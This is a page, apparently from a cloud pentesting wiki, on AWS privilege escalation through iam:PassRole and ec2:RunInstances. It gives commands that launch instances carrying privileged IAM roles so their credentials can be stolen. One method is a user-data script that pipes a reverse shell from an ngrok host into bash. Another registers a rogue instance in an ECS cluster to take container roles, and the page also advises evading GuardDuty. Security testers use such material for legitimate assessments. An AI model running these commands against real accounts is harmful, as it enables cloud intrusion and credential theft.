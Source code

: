 {% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `iam:PassRole`, `ec2:RunInstances`

An attacker could **create and instance attaching an IAM role and then access the instance** to steal the IAM role credentials from the metadata endpoint.

* **Access via SSH**

Run a new instance using a **created** **ssh key** (`--key-name`) and then ssh into it (if you want to create a new one you might need to have the permission `ec2:CreateKeyPair`).

```bash
aws ec2 run-instances --image-id <img-id> --instance-type t2.micro \
    --iam-instance-profile Name=<instance-profile-name> --key-name <ssh-key> \
    --security-group-ids <sg-id>
```

* **Access via rev shell in user data**

You can run a new instance using a **user data** (`--user-data`) that will send you a **rev shell**. You don't need to specify security group this way.

```bash
echo '#!/bin/bash
curl https://reverse-shell.sh/4.tcp.ngrok.io:17031 | bash' > /tmp/rev.sh

aws ec2 run-instances --image-id <img-id> --instance-type t2.micro \
   --iam-instance-profile Name=E<instance-profile-name> \
   --count 1 \
   --user-data "file:///tmp/rev.sh"
```

Be careful with GuradDuty if you use the credentials of the IAM role outside of the instance:

{% content-ref url="../aws-services/aws-security-and-detection-services/aws-guardduty-enum.md" %}
[aws-guardduty-enum.md](../aws-services/aws-security-and-detection-services/aws-guardduty-enum.md)
{% endcontent-ref %}

**Potential Impact:** Direct privesc to a any EC2 role attached to existing instance profiles.

#### Privesc to ECS

With this set of permissions you could also **create an EC2 instance and register it inside an ECS cluster**. This way, ECS **services** will be **run** in inside the **EC2 instance** where you have access and then you can penetrate those services (docker containers) and **steal their ECS roles attached**.

{% code overflow="wrap" %}
```bash
aws ec2 run-instances \
    --image-id ami-07fde2ae86109a2af \
    --instance-type t2.micro \
    --iam-instance-profile <ECS_role> \
    --count 1 --key-name pwned \
    --user-data "file:///tmp/asd.sh" 

# Make sure to use an ECS optimized AMI as it has everything installed for ECS already (amzn2-ami-ecs-hvm-2.0.20210520-x86_64-ebs)
# The EC2 instance profile needs basic ECS access
# The content of the user data is:
#!/bin/bash
echo ECS_CLUSTER=<cluster-name> >> /etc/ecs/ecs.config;echo ECS_BACKEND_HOST= >> /etc/ecs/ecs.config;
```
{% endcode %}
